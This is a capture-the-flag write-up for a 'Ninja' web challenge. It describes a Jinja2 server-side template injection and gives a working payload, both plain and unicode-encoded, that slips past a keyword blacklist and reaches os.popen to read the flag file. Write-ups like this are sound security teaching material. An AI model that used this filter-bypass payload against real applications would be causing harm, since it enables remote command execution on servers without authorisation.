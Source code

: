 # Ninja

Challenge's Desecription: Hey guys come checkout this website i made to test my ninja-coding skills.

# Vulnerability
First i thought This challenge will be XSS. But my one teammate told me that The challenge is SSTI jinja2 vulnerable. Thanks my mate. His discord(patrickaIi#7879)

# idea_for_solution

So we knew that is SSTI injection. By the problem is we can't inject any code. There is a blacklist. not allowed list:  _ ,config ,os, RUNCMD, base
F**k. They didn't allowed the os. This is a big problem. But we can bypass this with encoding. So the real problem is what encoding we need to use?. I used the unicode encoding to solve.

# Solution
I used the (lipsum) built in function of jinja2 and i used (attr) to bypass (underscores). and i used some other functions and i encode it with unicode.

So final payload is like this: {{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat flag.txt')|attr('read')()}}

I used this payload and GOt flag. Nice challenge.

# Payloads
original payload = lipsum|attr('__globals__'))|attr('__getitem__')('os')|attr('popen')('cat flag.txt')|attr('read')() 

encoded payload = {{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat flag.txt')|attr('read')()}}

# Flag
flag{m0mmy_s33_1m_4_r34l_n1nj4}

# Sorry
I can't upload or put images here because of my laptop error. Sorry for this.
